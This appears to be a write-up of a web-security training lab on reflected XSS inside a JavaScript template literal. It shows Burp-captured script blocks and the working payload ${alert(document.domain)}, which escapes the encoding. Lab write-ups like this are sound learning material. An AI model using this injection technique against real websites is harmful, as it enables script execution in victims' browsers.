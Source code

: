### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality.  

The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped.  

To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.

_____

Analysis and Exploit:

1. Perfomed a test search using string _testsearch_

    Analyzing captured request in Burp results that the user input is directly embedded between backticks in a script block

    ```html
    <script>
        var message = `0 search results for 'testsearch'`;
        document.getElementById('searchMessage').innerText = message;
    </script>
    ```

2. Injected payload ```${alert(document.domain)}```

    Capture from Burp
    ```html
    <script>
        var message = `0 search results for '${alert(document.domain)}'`;
        document.getElementById('searchMessage').innerText = message;
    </script>
    ```

    The payload works, the alert pops up and the search function returns _0 search results for 'undefined'_
